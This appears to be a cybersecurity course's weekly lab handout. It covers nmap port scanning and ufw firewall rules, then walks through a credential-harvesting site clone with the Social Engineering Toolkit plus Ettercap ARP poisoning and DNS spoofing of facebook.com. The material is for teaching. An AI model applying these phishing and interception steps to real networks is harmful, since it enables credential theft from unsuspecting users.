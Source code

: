 # Week 8 - Supplementary Materials 
[Markdown](https://github.com/lawfareblog/hacking-cybersecurity/blob/main/week08/Week_08_Homework.md) | [PDF](https://raw.githubusercontent.com/lawfareblog/hacking-cybersecurity/main/week08/Week_08_Homework.pdf) | [MS Word DOCX](https://raw.githubusercontent.com/lawfareblog/hacking-cybersecurity/main/week08/Week_08_Homework.docx) | [Libre ODT](https://raw.githubusercontent.com/lawfareblog/hacking-cybersecurity/main/week08/Week_08_Homework.odt) | [HTML](https://raw.githubusercontent.com/lawfareblog/hacking-cybersecurity/main/week08/Week_08_Homework.html)

## Firewalls

* Use `nmap` to check for open ports 1 through 100.

`nmap -p1-100 -Pn 192.168.1.116`

* Install the Unified Firewall `ufw` application to configure firewall ports.

`sudo apt-get install ufw`

`sudo ufw enable`

* Allow the SSH service (default is port 22) using either of these commands: 

`sudo ufw allow ssh`

`sudo ufw allow 22`

* Check the status of the firewall and allow/deny rules: 

`sudo ufw status`

* You can deny all traffic for FTP (default is port 21) using either of these commands: 

`sudo ufw deny ftp`

`sudo ufw deny 21`


## Social Engineering Toolkit (SET)

* Start SET: 

`cd /usr/share/set/`
`sudo setoolkit`

* In the SET menu: 

`1) Social Engineering Attacks` > `2) Website Attack Vectors` > `3) Credential Harvester Attack` > `2) Site Cloner`

`sudo ettercap -G`

* In the Ettercap menu: 

"Unified sniffing"
"hosts > scan for hosts"
"hosts > host list"
"MITM > ARP Poisoning"
"sniff remote connections"

* Navigate to `/usr/share/ettercap` and open `etter.dns`

`cd /usr/share/ettercap`
`ls`
`sudo cp etter.dns.examples etter.dns`
`sudo nano etter.dns`

* Enter your IP address in etter.dns as a DNS "A" record to spoof facebook.com
- In the example below, we use the IP address 192.168.1.116 but please use your own for the Kali Linux VM. You can find this address using the network manager GUI in the top right-hand toolbar in Kali or via the `ifconfig` command in the terminal.

`facebook.com A 192.168.1.116`
`*.facebook.com A 192.168.1.116`
`http://facebook.com PTR 192.168.1.116`

* In the Ettercap menu:

`Plugins` > `Manage plugins` > `dns_spoof`

* Now try http://facebook.com in a Web browser on your local network (inside or outside of the Kali Linux VM).

